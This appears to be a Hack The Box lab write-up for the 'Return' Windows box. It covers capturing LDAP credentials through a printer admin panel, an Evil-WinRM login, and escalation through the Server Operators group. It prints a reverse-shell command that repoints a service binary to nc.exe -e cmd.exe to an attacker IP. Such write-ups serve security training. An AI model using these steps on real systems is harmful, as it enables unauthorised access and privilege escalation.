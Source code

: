 ```yaml
---
layout: post
title: "HTB: Return"
---
```


Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.

# Recon

## nmap

```shell-session
sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
```

nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52638/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m32s
| smb2-time: 
|   date: 2024-10-30T09:39:39
|_  start_date: N/A
```

## SMB - TCP 445

Dead end at the moment, maybe we will come back when we find some credentials.

![SMB](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-10-52.png)

## Web - TCP 80

The website is a 'HTB Printer Admin Panel'
![Web](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)

# Shell as svc-printer

On the 'Settings' tab ther eis pre-filled form
![Web2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)

## Burp 

When using burp to check the POST request only one argument is send:

```
ip=printer.return.local
```
The other three fields in the form are not.
User can only change the Server Address ('ip'), and not port, username or password.

## Request

If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.

![Request](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-42.png)
![Request2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-58.png)

...and it’s trying to authenticate so we have username and password.

## WinRM

Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM

![WinRm_shell](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)

and get the user flag

![WinRm_shell](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)

# Privilege Escalation

## Groups and Privileges

First of all, let's check our privileges,

![priv](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)

and also groups.

![priv2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)

A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.

## Reverse shell

Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.

Upload the nc.exe 

![nc](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)

Now modify a service binary path, stop and restart the service:

```shell-session
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
```
![sh](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)

Start listener and as soon as we start the service again we catch the shell.

![sh2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)

![sh2](https://github.com/0o176/0o176.github.io/blob/main/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)


